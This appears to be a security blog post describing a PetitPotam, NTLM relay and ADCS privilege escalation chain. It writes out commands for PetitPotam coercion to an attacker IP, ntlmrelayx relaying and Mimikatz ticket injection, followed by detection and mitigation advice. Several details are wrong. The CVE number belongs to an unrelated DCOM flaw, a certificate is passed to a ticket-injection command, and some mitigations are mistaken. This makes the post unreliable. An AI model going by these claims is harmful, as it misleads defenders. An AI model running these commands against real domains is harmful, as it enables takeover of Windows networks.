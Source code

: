 ```yaml
---
title: "Exploiting CVE-2021-26414: PetitPotam, ADCS, and Domain Compromise"
published: 2025-04-18
updated: 2025-04-18
description: 'A deep dive into the CVE-2021-26414 exploit chain: PetitPotam, NTLM relay attacks, and ADCS misconfigurations for privilege escalation.'
image: 'cve-2021-26414.png'
tags: ['CVEs']
category: 'Active Directory Attacks'
draft: false
lang: 'ar-eng'
---
```



## **Table of Contents**  
1. Introduction to CVE-2021-26414: A Critical Privilege Escalation Vulnerability
2. Understanding the Vulnerability: PetitPotam and ADCS Misconfiguration 
3. Exploitation Mechanism of CVE-2021-26414**  
4. Step-by-Step Exploitation Process
5. Post-Exploitation: Gaining Domain Admin Privileges
6. Detection Strategies for CVE-2021-26414
7. Mitigation and Best Practices to Prevent Exploitation
8. onclusion and Key Takeaways 
9. References for Further Readin


> **⚠️ Caution:** #FreePalestine

---

**CVE-2021-26414** is a **privilege escalation vulnerability** that leverages a combination of **PetitPotam** (which exploits the **MS-EFSRPC** protocol) and **Active Directory Certificate Services (ADCS)**. The vulnerability allows an attacker to escalate their privileges to **Domain Admin** (DA) by exploiting **NTLM relay attacks** and **ADCS misconfigurations**. This vulnerability primarily affects **Windows Server versions** and can lead to full domain compromise.

### **`PetitPotam Overview`**

PetitPotam exploits the **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)**, which is used for **file encryption and decryption** on Windows machines. This protocol can be abused to force a machine to authenticate via **NTLM** and can lead to **NTLM relay attacks** when the **MS-EFSRPC** service is misconfigured.

### **`ADCS Overview`**

**Active Directory Certificate Services (ADCS)** is a service that allows an organization to issue **public key certificates** for users, devices, and services within a **Windows domain**. If ADCS is improperly configured, an attacker can request certificates they are not authorized for, enabling them to impersonate high-privilege accounts like **Domain Admins**.

### `**2. Exploitation Mechanism**`

### **PetitPotam Tool: Abusing MS-EFSRPC for NTLM Authentication Relay**

1. **PetitPotam** abuses the **MS-EFSRPC** protocol by forcing a vulnerable **domain controller** (DC) or **Windows machine** to authenticate using **NTLM authentication**. The tool makes the target system request NTLM authentication, which can then be intercepted and relayed.
2. The attacker uses a tool like **Impacket's `ntlmrelayx.py`** to **relay the NTLM hash** to an **Active Directory Certificate Services (ADCS)** server.
3. **ADCS** can be misconfigured in such a way that it issues certificates to unauthorized users. By relaying the NTLM authentication to the **ADCS server**, the attacker can impersonate **Domain Admins**.

---

### **`3. Step-by-Step Exploitation of CVE-2021-26414`**

### **Step 1: Attacker’s Setup**

The attacker needs a **low-privileged user account** within the domain, and the **target system** (usually the **Domain Controller** or a machine communicating with ADCS) must have the **MS-EFSRPC** service running and vulnerable to the PetitPotam attack.

### **Step 2: Triggering MS-EFSRPC Authentication**

The **PetitPotam** tool will exploit the **MS-EFSRPC** vulnerability to trigger NTLM authentication. PetitPotam forces the **target system** to authenticate with NTLM, making it vulnerable to relay attacks.

### **`Command to Run PetitPotam**:`

```abap
# Running PetitPotam tool to trigger NTLM authentication relay
python3 petitpotam.py <target-dc-ip> <attacker-ip>

```

- **<target-dc-ip>**: IP address of the **Domain Controller** or the vulnerable system.
- **<attacker-ip>**: IP address of the attacker’s machine.

This sends an **NTLM authentication request** to the attacker's machine.

### **`Step 3: Relay NTLM Authentication to ADCS Server`**

Once the **NTLM request** is triggered, the attacker can use **Impacket's `ntlmrelayx.py`** to **relay** the authentication to the **ADCS server**.

### **Impacket Relay Command**:

```abap
Use ntlmrelayx to relay NTLM authentication to ADCS server

python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t http://<adcs-server>/certsrv
```

- **<adcs-server>**: The IP address or hostname of the **ADCS server**.

This step **relays the NTLM hash** from the DC to the ADCS server, where the attacker can **request a certificate**.

### **`Step 4: Request Certificate with Relayed NTLM Authentication`**

By exploiting the **NTLM relay**, the attacker gets a **certificate** from the ADCS server that can be used to impersonate a **Domain Admin**.

If **ADCS** is improperly configured and doesn't restrict certificate requests, the attacker can request a certificate for any **privileged account** (like **Domain Admin**).

---

### **`Post-Exploitation: Impersonating Domain Admin`**

Once the attacker receives the **privileged certificate**, they can use tools like **Mimikatz** to inject it into their **Kerberos ticket cache**.

### **Mimikatz Command to Inject Certificate**:

```abap
# Inject the certificate into the Kerberos ticket cache
mimikatz.exe "kerberos::ptt <certificate-file>"

```

This allows the attacker to **authenticate** as the **Domain Admin** and gain **Domain Admin privileges**.

---

### **`5. Detection and Mitigation`**

### **Detection**

1. **Event Logs (Event ID 4648)**:
    - When an **NTLM authentication request** is made with explicit credentials, **Event ID 4648** is generated. This event can help identify unauthorized NTLM authentication attempts.
2. **Network Traffic Monitoring**:
    - Watch for unusual **RPC** or **SMB** traffic patterns. This is particularly important to detect **NTLM relay attempts** and **PetitPotam abuse**.
3. **Monitoring Certificate Requests**:
    - Monitor certificate requests from machines that are not **authorized** to request privileged certificates. **ADCS logging** can help identify when **unauthorized certificate requests** are made.
4. **SMB and RPC Anomalies**:
    - Look for anomalies in **SMB** or **RPC** traffic, especially **NTLM authentication relays** that target **ADCS servers**.

### **Mitigation**

1. **Apply Microsoft’s March 2022 Patch**:
    - Microsoft released a patch to fix **CVE-2021-26414**. Ensure that the patch is applied to **all Windows servers** running **MS-EFSRPC** and **ADCS**.
2. **Disable MS-EFSRPC if Not Required**:
    - If **MS-EFSRPC** is not needed for your environment, **disable the service** to prevent exploitation.
3. **Restrict Access to ADCS**:
    - Limit who can request certificates from the **ADCS server** by applying proper **role-based access control**. Ensure that only **authorized accounts** (e.g., **Domain Admins**) can request certificates.
4. **Force SMB Signing**:
    - **SMB signing** ensures that SMB traffic cannot be **intercepted** or **modified**, which helps prevent **NTLM relay attacks**.
5. **Enforce NTLMv2**:
    - Disable **NTLMv1** and enforce **NTLMv2** in your domain to mitigate relay attacks that rely on **NTLM**.
6. **Audit and Restrict SMB Permissions**:
    - Audit and restrict **SMB shares** to prevent unauthorized access. **SMB permissions** should be tightly controlled.

---

### **`6. Conclusion and Key Takeaways`**

**CVE-2021-26414 (PetitPotam + ADCS)** is a serious **privilege escalation** vulnerability in Windows domains. By exploiting the **MS-EFSRPC** protocol via **PetitPotam** and relaying the **NTLM authentication** to a **misconfigured ADCS server**, attackers can obtain **Domain Admin** privileges.

To prevent such attacks, organizations should **apply patches**, **disable unnecessary services**, and carefully **audit** their Active Directory environments for misconfigurations. Monitoring **network traffic** and **event logs** for signs of exploitation is crucial for early detection.

---

### `**References for Further Reading**`

- [**Microsoft Security Advisory CVE-2021-26414**](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26414)
- [**PetitPotam Tool** (GitHub)](https://github.com/fireshare/PetitPotam)
- [**Impacket NTLM Relay** (GitHub)](https://github.com/SecureAuthCorp/impacket)
- [**Mimikatz GitHub**](https://github.com/gentilkiwi/mimikatz)